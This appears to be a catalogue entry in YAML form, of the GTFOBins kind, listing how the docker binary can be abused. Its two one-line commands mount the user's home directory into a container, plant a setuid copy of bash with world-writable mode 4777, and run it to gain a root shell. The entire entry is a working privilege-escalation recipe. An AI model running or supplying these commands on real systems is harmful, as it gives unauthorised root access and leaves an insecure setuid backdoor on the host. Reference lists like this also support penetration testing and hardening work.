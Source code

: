 ```yaml
---
functions:
  execute-interactive:
    - code: docker run -v /home/${USER}:/h_docs ubuntu bash -c "cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;" && ~/rootshell -p
  sudo-enabled:
    - code: sudo docker run -v /home/${USER}:/h_docs ubuntu bash -c "cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;" && ~/rootshell -p
---
```

